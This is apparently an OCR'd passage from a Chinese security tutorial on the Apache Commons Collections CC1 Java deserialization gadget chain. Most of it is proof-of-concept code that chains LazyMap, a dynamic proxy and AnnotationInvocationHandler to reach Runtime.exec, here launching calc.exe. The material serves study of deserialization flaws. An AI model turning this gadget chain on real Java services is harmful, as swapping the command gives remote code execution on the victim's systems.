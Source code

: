   
![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCgGzxibNdJctuaYa3mNKylicvphcLle3Y6rXk1IpicER0QgsrFspDNIw0y96T2ClvIF017qEfqaZqicw/640?wx_fmt=png "")  
  
  
  
**0x05 终**  
  
这里需要对动态代理进行一些理解，动态代理知识多看几遍，而且这里进行了一些套娃  
  
注：这个方式深入的话，比较难理解，在debug模式下，序列化都会触发命令执行，但是正常模式则不会触发，正常模式下，反序列化最后AnnotationInvocationHandler对象时才会触发命令执行  
  
```
package com.yhsec.cctest.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyM = LazyMap.decorate(map, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aIC = c.getDeclaredConstructor(Class.class, Map.class);
        aIC.setAccessible(true);
        //这里为了能够触发AnnotationInvocationHandler的invoke方法(动态代理),所以需要一个InvocationHandler对象，AnnotationInvocationHandler是InvocationHandler的实现类，直接强转获得InvocationHandler对象
//        Object o = aIC.newInstance(Target.class, lazyM);
        InvocationHandler invocationHandler = (InvocationHandler) aIC.newInstance(Target.class, lazyM);

        //动态代理，因为AnnotationInvocationHandler接收一个Map参数，而LazyMap刚刚好实现了Map接口，所以这里代理Map接口
        // 这里是为了在进行动态代理的时候触发AnnotationInvocationHandler的invoke方法
       Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},invocationHandler);

       //这里是为了进行序列化反序列化，最外层,这个时候传入的上面动态代理获得的Map对象，AnnotationInvocationHandler套娃
        Object o = aIC.newInstance(Target.class, mapProxy);

        serialize(o);
```